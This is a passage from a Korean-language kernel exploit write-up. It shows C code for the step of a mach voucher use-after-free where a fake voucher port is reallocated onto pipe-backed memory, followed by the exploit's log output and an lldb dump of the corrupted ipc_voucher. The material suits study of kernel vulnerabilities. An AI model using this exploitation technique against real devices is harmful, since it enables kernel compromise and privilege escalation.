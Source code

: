 thread_get_mach_voucher 함수로 사용자 공간의 포트를 다시 받아온다. 이전과의 포트와 달라졌다면,  iv_port에 fakeport가 적힌 파이프 할당주소로 된 fake new_voucher로 재할당됐다는것을 의미하며 
이제 fakeport 또한 pipe write를 통해 임의로 조작할 준비가 됐다.

```c
    mach_port_t old_real_port = real_port_to_fake_voucher;
    ret = thread_get_mach_voucher(mach_thread_self(), 0, &real_port_to_fake_voucher);
    if (ret != KERN_SUCCESS)
    {
        INFO("failed to call thread_get_mach_voucher: %x %s", ret, mach_error_string(ret)); exit(1);
    }

    INFO("old port: %x\n", old_real_port);
    INFO("new port: %x\n", real_port_to_fake_voucher);

    if (old_real_port == real_port_to_fake_voucher)
    {
        INFO("failed to get new port :(\n"); exit(1);
    }

    the_one = real_port_to_fake_voucher;

    if (!MACH_PORT_VALID(the_one))
    {
        INFO("the_one is not valid :-( failed to realloc\n"); exit(1);
    }

    INFO("WE REALLY TRAPPIN OUT HERE\n");
```

```c
[*] port: 0x100707
[*] WE REALLY POSTED UP ON THIS BLOCK -- part 1 of #alwaysstayposted
[*] getting responses...
[*] found voucher!! s: 502, j: 45
[*] port: 0xffffff8031fddd88
[*] refs: 101
p1_ipc_voucher (3): 0xffffff802ddcce10
[*] total pipes created: 1280
[*] new port addr: 0xffffff803211d000
[*] realloc'ing...
[*] old port: 100707
[*] new port: e4b07
[*] WE REALLY TRAPPIN OUT HERE

iv_port가 fakeport가 적힌 파이프 주소를 가리킴, fake new_voucher 재할당 완료.
(lldb) p *(ipc_voucher_t)0xffffff802ddcce10
(ipc_voucher) $3 = {
  iv_hash = 0
  iv_sum = 0
  iv_refs = (ref_count = 200)
  iv_table_size = 0
  iv_inline_table = ([0] = 0, [1] = 0, [2] = 0, [3] = 0, [4] = 0, [5] = 0, [6] = 0, [7] = 0)
  iv_table = 0x0000000000000000
  iv_port = **0xffffff803211d000 //**fakeport가 적힌 파이프 주소
  iv_hash_link = {
    next = nullptr
    prev = nullptr
  }
}
```
